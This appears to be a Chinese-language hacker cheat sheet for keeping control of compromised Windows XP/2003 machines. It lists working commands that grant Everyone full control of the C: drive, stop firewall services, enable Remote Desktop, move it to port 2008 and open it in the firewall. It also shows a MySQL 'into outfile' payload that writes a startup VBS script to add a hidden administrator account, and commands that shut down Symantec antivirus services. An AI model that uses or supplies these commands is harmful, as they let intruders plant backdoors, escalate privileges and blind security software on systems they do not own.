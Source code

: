 * Cmd 访问控制权限控制：

命令如下：
``` 
cacls c: /e /t /g everyone:F           #c盘everyone权限
cacls "目录" /d everyone               #everyone不可读，包括admin
``` 
备注：

反制方法，在文件夹安全设置里将 Everyone 设定为不可读，如果没有安全性选项：工具 – 文件夹选项 – 使用简单的共享去掉即可。

* 3389 相关，以下配合PR更好：

a、防火墙TCP/IP筛选.(关闭：net stop policyagent & net stop sharedaccess)

b、内网环境(lcx.exe)

c、终端服务器超出了最大允许连接(XP 运行：mstsc /admin;2003 运行：mstsc /console)

####1.查询终端端口：

REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber
####2.开启XP&2003终端服务：

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
####3.更改终端端口为2008(十六进制为：0x7d8)：

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f

####4.取消xp&2003系统防火墙对终端服务的限制及IP连接的限制：

REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f
create table a (cmd text);

insert into a values ("set wshshell=createobject (""wscript.shell"")");

insert into a values ("a=wshshell.run (""cmd.exe /c net user admin admin /add"",0)");

insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators admin /add"",0)");

select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";

BS马的PortMap功能，类似LCX做转发。若果支持ASPX，用这个转发会隐蔽点。(注：一直忽略了在偏僻角落的那个功能)

* 关闭常见杀软(把杀软所在的文件的所有权限去掉)：

处理变态诺顿企业版：

 

net stop "Symantec AntiVirus" /y
net stop "Symantec AntiVirus Definition Watcher" /y

net stop "Symantec Event Manager" /y

net stop "System Event Notification" /y
